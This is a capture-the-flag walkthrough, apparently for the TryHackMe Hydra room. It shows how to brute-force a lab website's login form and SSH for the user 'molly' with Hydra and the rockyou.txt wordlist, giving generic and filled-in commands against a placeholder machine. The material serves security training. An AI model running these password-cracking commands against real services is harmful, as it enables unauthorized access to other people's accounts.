






# [Hydra][1]
Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

If you want to know more about Hydra, you can check [Hydra - Network Logon Cracker][2] Blog.

## TASK 2

### Web Flag

Go to the website and type any password to get the incorrect message.


> Copy the message, we will use this in `hydra` for bruteforcing.

Now that we have
- the incorrect message: `Your username or password is incorrect.`
- username: `molly`
- wordlist for password: `rockyou.txt`
- Location for login: `/login`

We can use the command mentioned under `Post Web Form`

```
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Command for this case will be:**

```
hydra -l "molly" -P "rockyou.txt" MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect." -V
```


> Now that we have username and password, we can login and get the first flag.



### SSH Flag

We can use the command mentioned under `SSH`

```
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

**Command for this case will be:**

```
hydra -l "molly" -P "rockyou.txt" MACHINE_IP -t 4 ssh
```


> Now that we have the password we can try logging in.

SSH login command: `ssh molly@<IP>`


> Vola we got the access.

Let's get the flag.




[1]: https://tryhackme.com/room/hydra
[2]: https://blog.hackhunt.in/2022/03/hydra-network-logon-cracker.html
